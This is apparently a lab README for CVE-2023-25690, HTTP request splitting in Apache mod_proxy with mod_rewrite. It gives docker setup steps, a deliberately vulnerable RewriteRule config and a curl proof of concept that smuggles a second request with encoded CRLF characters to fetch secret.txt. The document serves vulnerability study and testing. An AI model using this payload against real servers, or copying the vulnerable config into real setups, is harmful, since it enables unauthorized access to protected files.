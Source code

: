 # HTTP request splitting with mod_rewrite and mod_proxy (CVE-2023-25690)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack.

Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://github.com/apache/httpd/commit/9282a06e55cb142666d6ed565c9031e728b7d537
- https://github.com/apache/httpd/commit/d78a166fedd9d02c23e4b71d5f53bd9b2c4b9a51

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8081`.

## Exploit
The vulnerable point is that backreference insert into backend's query-string part, mod_rewrite will decode this part of the data.   
Attackers can use raw control character to construct a malicious request for request splitting attacks.  
  
Vulnerable config:
```
RewriteEngine on

RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P]

ProxyPassReverse /here/ http://example.com:8080/
```

POC:  
`curl.exe "http://192.168.31.145:8081/vuln/a%20HTTP/1.1%0d%0aHost:%20192.168.31.145:8081%0d%0a%0d%0aGET%20/404" -v`  
Then, the secret.txt file will be requested.

![](poc.png)
